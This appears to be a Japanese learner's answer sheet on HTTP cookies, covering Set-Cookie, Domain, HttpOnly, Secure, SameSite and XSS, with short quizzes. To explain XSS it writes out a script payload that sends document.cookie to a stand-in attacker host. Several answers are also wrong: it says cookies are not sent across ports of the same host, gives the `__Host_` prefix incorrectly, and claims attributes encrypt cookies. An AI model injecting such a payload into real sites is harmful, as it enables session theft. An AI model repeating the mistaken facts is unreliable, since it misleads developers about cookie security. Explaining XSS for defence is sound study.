 # 【回答】クッキーを理解する

## 課題1

### クッキーとは何でしょうか？「Set-cookie」「ヘッダ」「サーバ」「ブラウザ」という単語を使って、クッキーの仕組みを説明してみてください

Webサーバーからブラウザに送信され、ブラウザに保存されるデータのこと。以降クライアントからサーバへのリクエストには保存されたCookieが添付される。ユーザーのセッション情報・データの管理に使われることが多い。

サーバからクライアントへのレスポンスにHTTPヘッダ`Set-Cookie: <cookie-name>=<cookie-value>`を設定すると、クライアントのブラウザにCookie（名前と値の組み合わせ）が保存される。以降クライアントからサーバーへのリクエストにはHTTPヘッダ`Cookie: <cookie-name>=<cookie-value>`が設定される。

### www.hoge.comで発行されたクッキーは、www.fuga.comにも送信されるでしょうか？その理由を説明してください

送信されない。オリジンが異なるため。

### hoge.com:8080のクッキーはhoge.com:9090にも送信されるでしょうか？

送信されない。オリジンが異なるため。

### www.hoge.comで発行されたクッキーは、www.api.hoge.comにも送信されるでしょうか？

送信されない。オリジンが異なるため。

### クッキーにDomain="hoge.com"を指定した場合、api.hoge.comにもクッキーは送信されるでしょうか？理由を説明してください

送信される。Domain属性が設定された場合、サブドメイン間でもCookieが送られるようになるため。

### ブラウザで実行されるJavaScriptは場合によってはクッキーの値を取得できます。JavaScriptからクッキーの値が取得されることを防ぐことは可能でしょうか？どうすれば良いのでしょうか？

可能。Cookieに`HttpOnly`属性を設定する。

### HTTPS（暗号化）通信の時だけクッキーを送信することは可能でしょうか？どうすれば良いのでしょうか？

可能。`Secure`属性を設定する。

### クッキーにExpiresを設定すると、どのように挙動が変わるでしょうか？

Cookieに有効期限が設定され、有効期限が過ぎたCookieは無効になる。

### SameSite属性について説明してください

`Strict`、`Lax`、`None`の3段階の値を指定して、オリジン間のCookieの送信可否を制限することができる。

```
Set-Cookie: <cookie-name>=<cookie-value>; SameSite=Strict
Set-Cookie: <cookie-name>=<cookie-value>; SameSite=Lax
Set-Cookie: <cookie-name>=<cookie-value>; SameSite=None
```

1. サイトAでHTTPヘッダ`Set-Cookie`でCookieを発行（ここで`SameSite`属性を設定する）
2. 外部サイトB（Aとは別ドメイン）に遷移
3. サイトAに遷移

する場合、B→Aの遷移でHTTPヘッダ`Cookie`でCookieを送信するかどうかを制限できる。

- Strict … Cookieは送信されない。
- Lax … GETリクエストの場合のみCookieを送信する。MDN Web Docsではモダンブラウザ（例えばChromeであればver 80から）のデフォルト値とされている。
- None … どのようなリクエストであってもCookieを送信する。（Chrome 80からは、`Samesite=None`を設定する場合は`Secure`属性の設定が必須になる）

SameSite属性にStrictもしくはLaxを設定することで、悪意のあるCookie設定がしにくくなり、CSRF対策になる。

### クッキーに格納しない方が良い情報の例を、3つ以上挙げてください

- **公開されてはいけない情報** … Cookieの情報は、ブラウザの機能を使うことですべてのユーザーが見ることができる情報なので、システム内部の情報など、脆弱性に繋がる可能性のある情報は格納しないほうがよい
- **変更されてはいけない情報** … Cookieの情報は、ブラウザの機能を使うことですべてのユーザーが変更することができる情報なので、変更されることによってシステムに不可逆な影響を与えてしまうような情報は格納しないほうがよい
- **Cookieで保存するメリットがない情報** … Cookieは送信しないことを明示的に示さない限り全てのリクエストといっしょに添付されるようになるので、Cookieに格納する情報が増えればサーバーとクライアントの間でやりとりされるデータの量は急増する。クライアントの数が増えるとやり取りされるデータの量は更に増えるため、パフォーマンスやスケーラビリティを考慮すると、必要ない場合はCookieは利用しないほうがよい

### クッキーはローカルストレージと混同されることが多々あります。クッキーを使うべきタイミングと、ローカルストレージを使うべきタイミングを挙げてみてください

- **Cookieを使うべきタイミング** … セッションIDやトークンなどの重要なデータを保存したいタイミング。Cookieであれば属性を設定することで情報を暗号化したり有効期限を設定したりして、（localStorageと比べて）情報をセキュアに取り扱うことができる
- **localStorageを使うべきタイミング** … ブラウザに保存したいが、データ量が大きいなどの理由でサーバーとのやりとりを最小限にしたい、かつ、どこかに公開されたり変更されたりしても問題ないデータ

### stack overflowのようなWEB掲示板サービスを開発しているとしましょう。XSS（クロスサイトスクリプティング）により、他ユーザのクッキー情報が抜き出される仕組みを説明してください。どのような対策が考えられますか？

`<script>`などの文字列を書き込まれてしまった場合に、ユーザーがページを表示しようとする時点でそのスクリプトが実行されてしまうような作りになってしまっていた場合

1. サイトに表示するためのテキストを入力するフォームに、悪意のあるユーザーが下記のようなスクリプトを入力する

   ```
   <script>
     window.location="https://attack.com?"+document.cookie;
   </script>
   ```

2. 上記のスクリプトが仕込まれたページにユーザーがアクセスしてしまうと、attack.comにそのユーザーのcookieがクエリパラメータとして送信されてしまう

これを防ぐためには、`<`や`&`などのスクリプトを仕込むための文字のエスケープ処理を十分に用意する必要がある。

## 課題2

### クイズ1

`Set-Cookie`ヘッダに`Domain`を設定しなかった場合と`Domain=mozilla.org`を設定した場合との挙動の比較として、正しい説明はどれか

A.

- `Domain`を設定しなかった場合、`mozilla.org`と`developer.mozilla.org`のどちらもCookieを受信することができる
- `Domain=mozilla.org`を設定した場合、`mozilla.org`のみCookieを受信することができる

B. 

- `Domain`を設定しなかった場合、`mozilla.org`のみCookieを受信することができる
- `Domain=mozilla.org`を設定した場合、`mozilla.org`と`developer.mozilla.org`のどちらもCookieを受信することができる

<details>
  <summary>回答</summary>
  B<br />
  Domainを指定すると、省略した場合より制限が緩和されるため注意
</details>

### クイズ2

`Set-Cookie`ヘッダに`Expire`属性と`Max-Age`属性の両方を設定した場合、どちらが優先されるか

<details>
  <summary>回答</summary>
   Max-Age属性が優先される
</details>

### クイズ3

`Domain`属性が設定されている場合ブラウザに拒否されるようにするためには、Cookieをどのように設定すればよいか

<details>
  <summary>回答</summary>
  Cookieの名前に接頭辞<code>__Host_</code>をつける
</details>

